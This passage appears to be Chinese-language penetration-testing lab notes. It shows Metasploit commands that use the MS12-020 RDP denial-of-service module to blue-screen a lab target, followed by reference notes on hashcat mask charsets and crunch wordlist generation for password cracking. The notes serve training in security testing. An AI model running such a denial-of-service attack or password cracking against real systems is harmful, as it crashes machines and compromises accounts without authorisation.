 ![image-20231101195842369](https://s2.loli.net/2023/11/01/XVWPvJmwesMFG4b.png)

检测结果显示，靶机存在ms12-020漏洞。

#### 3．利用ms12-020漏洞对靶机进行攻击

在Metasploit终端下分别输入以下命令，使用ms12_020_maxchannelids模块对目标机的ms12-020漏洞进行利用：

```bash
use  auxiliary/dos/windows/rdp/ms12_020_maxchannelids   //使用ms12_020_maxchannelids模块

show  options   //查看该模块需要设置哪些参数

set  RHOST  [靶机IP]   //设置目标机的IP地址

run   //执行
```

![image-20231101200252821](https://s2.loli.net/2023/11/01/vDdGWsun7ZNPayf.png)

此时，靶机被攻击后出现蓝屏：

![image.png](https://s2.loli.net/2023/11/01/YyiFscIfRjKHWq6.png)

## hashcat

**掩码（mask）使用：**

**Hashcat的掩码字符集:**

- ?l         小写字母(abcdefghijklmnopqrstuvwxyz)
- ?u        大写字母(ABCDEFGHIJKLMNOPQRSTUVWXYZ)
- ?d        十进制数字(0123456789)
- ?h        十六进制数字，字母小写(0123456789abcdef)
- ?H        十六进制数字，字母大写(0123456789ABCDEF)
- ?s         特殊字符(!”#$%&‘()*+，-./;<=>?@[]^_`{|}~)
- ?a         相当于?l?u?d?s，即键盘上所有可见的字符
- ?b         0x00 - 0xff

![image-20231102102920007](https://s2.loli.net/2023/11/02/StcUoMivYzOLQ9s.png)

使用示例：

![image-20231102105617208](https://s2.loli.net/2023/11/02/xG8P3r1XB2zWKZm.png)

## Crunch

创建密码字典的工具。

```bash
$ crunch <min-len> <max-len> [<charset string >] [options]
#-t 指定密码输出结果的格式
```

